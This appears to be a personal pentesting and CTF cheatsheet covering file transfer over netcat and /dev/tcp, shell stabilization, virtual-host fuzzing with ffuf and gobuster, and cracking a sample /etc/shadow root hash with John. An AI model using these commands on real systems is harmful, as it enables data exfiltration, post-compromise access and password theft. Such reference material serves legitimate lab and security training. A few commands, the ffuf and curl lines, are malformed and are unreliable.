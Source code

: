 ```yaml
---
title: Useful Cheatsheet
author: siresire
date: 2023-05-19 18:10:00 +0800
categories: [Basics]
tags: []
render_with_liquid: false
---
```


# Files transfer from one machine to another

## Netcat

On the receiving machine (the machine where you want to receive the file):

```bash
nc -l -v -p 4444 > test.txt
```


On the sending machine (the machine where the file is located):

```bash
cat test.txt > /dev/tcp/10.10.10.10/4444
```

or

```bash
nc 10.10.10.10 4444 < test.txt
```

## Over the internet 
### using python3 and wget

On the sending machine where the file is located we create a local file server

```bash
python3 -m http.server 8080
```

or using  updog, python3 module [PoC](https://pypi.org/project/updog/)

```bash
updog [-d DIRECTORY] [-p PORT] [--password PASSWORD] [--ssl]
```

On the receiving machine 

```bash
wget http://10.10.10.10:8080/test.txt
```

## using ssh,scp(Secure Copy Protocol)

To copy a file from your local machine to a remote server, use:

```bash
scp /path/to/local/file username@remote_host:/path/to/remote/directory

```


To copy a file from a remote server to your local machine, use:

```bash
scp username@remote_host:/path/to/remote/file /path/to/local/directory
```

## rsync

Copy a file to a remote server
```bash
rsync -avz /path/to/local/file username@remote_host:/path/to/remote/directory
```

Copy a file from a remote server

```bash
rsync -avz username@remote_host:/path/to/remote/file /path/to/local/directory
```

## SSH and Tar

For copying directories, especially large ones, combining ssh with tar can be efficient. 

Copy a directory to a remote server

```bash
tar czf - /path/to/local/directory | ssh username@remote_host "tar xzf - -C /path/to/remote/directory"
```

Copy a directory from a remote server

```bash
ssh username@remote_host "tar czf - /path/to/remote/directory" | tar xzf - -C /path/to/local/directory

```

# Stabilize a shell 

Method 1
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
^Z
stty raw -echo; fg
```

Method 2
```bash
script -qc /bin/bash /dev/null
```

# Virtual Host Enumeration

## Ffuf

```bash
ffuf -w namelist.txt -u http://10.10.10.10 -H "HOST: FUZZ.url.local".
```
You can filter one response size or a list of sizes using commas to separate them with the `-fs` flag — like `-fs 109, 208`,, and so on.

```bash
ffuf -w namelist.txt -u http://10.10.10.10 -H "HOST: FUZZ.url.local -fs 10918

```

## Gobuster

```bash 
gobuster vhost -u http://10.10.10.10 -w namelist.txt -p pattern --exclude-length 301 -t 10
```

## curl 
```bash
curl -s -I http://10.129.141.252 -H "HOST: ${vhost}.inlanefreight.htb" | grep "Content-Length: "; done > output

```

# Cracking /etc/shadow with John

```bash
# /etc/passwd line
root:x:0:0:root:/root:/bin/bash

# /etc/shadow line
root:$6$riekpK4m$uBdaAyK0j9WfMzvcSKYVfyEHGtBfnfpiVbYbzbVmfbneEbo0wSijW1GQussvJSk8X1M56kzgGj8f7DFN1h4dy1:18226:0:99999:7:::
```

In order to unshadow to the two files we need to execute

```bash
unshadow passwd.txt shadow.txt > unshadowed.txt
```
Which will store in the unshadowed.txt file the following

```bash
root:$6$riekpK4m$uBdaAyK0j9WfMzvcSKYVfyEHGtBfnfpiVbYbzbVmfbneEbo0wSijW1GQussvJSk8X1M56kzgGj8f7DFN1h4dy1:0:0:root:/root:/bin/bash
```

Next and final step is to actually start the cracking with John. It is up to you which cracking method you will chose, though a bruteforcing using a wordlist is usually enough for CTFs. An example attack using a wordlist would be launched like below

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt unshadowed.txt
```

